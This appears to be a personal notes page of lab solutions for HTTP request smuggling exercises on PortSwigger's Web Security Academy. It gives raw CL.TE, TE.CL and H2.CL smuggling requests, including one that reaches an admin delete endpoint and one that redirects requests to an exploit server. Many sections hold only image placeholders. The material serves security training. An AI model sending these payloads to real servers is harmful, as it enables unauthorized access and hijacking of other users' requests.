 ____

# HTTP request smuggling, confirming a CL.TE vulnerability via differential responses


```
POST / HTTP/1.1
Host: 0ad900fc04a5e02480c97b4300e60060.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 39
Transfer-Encoding: chunked

0

GET /404 HTTP/1.1
X-Ignore: X
```

![[Pasted image 20240815043936.png]]


# HTTP request smuggling, confirming a TE.CL vulnerability via differential responses

In Burp Suite, go to the Repeater menu and ensure that the "Update Content-Length" option is unchecked.

Using Burp Repeater, issue the following request twice:

```
POST / HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-length: 4
Transfer-Encoding: chunked

5e
POST /404 HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0
```

![[Pasted image 20240815060930.png]]

# Exploiting HTTP request smuggling to bypass front-end security controls, CL.TE vulnerability

![[Pasted image 20240815063631.png]]

```
tRANSFER-ENCODING: chunked
Connection: close

3
x=y
0

GET /admin/delete?username=carlos HTTP/1.1
X-Ignore: X
Content-Type: application/x-www-form-urlencoded
Content-Length: 45
Host: localhost

x=
```

# Exploiting HTTP request smuggling to bypass front-end security controls, TE.CL vulnerability

![[Pasted image 20240815131026.png]]

# Exploiting HTTP request smuggling to reveal front-end request rewriting

The front-end server adds an HTTP header to incoming requests containing their IP address. It's similar to the `X-Forwarded-For` header but has a different name.

![[Pasted image 20240815133129.png]]


![[Pasted image 20240815133321.png]]

# Exploiting HTTP request smuggling to capture other users' requests

![[Pasted image 20240816042904.png]]

![[Pasted image 20240816042931.png]]

# Exploiting HTTP request smuggling to deliver reflected XSS

![[Pasted image 20240816045156.png]]

# Response queue poisoning via H2.TE request smuggling

![[Pasted image 20240817051727.png]]

# H2.CL request smuggling

- CL.0 desync: h2CL|GET /favicon.ico
![[Pasted image 20240817070314.png]]

```
POST / HTTP/2
Host: 0ae4007e047995e985021e1b0017001d.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 0

GET /resources HTTP/1.1
Host: exploit-0a85002a042a95da85241d7a010e007b.exploit-server.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 5

x=1
```


# HTTP/2 request smuggling via CRLF injection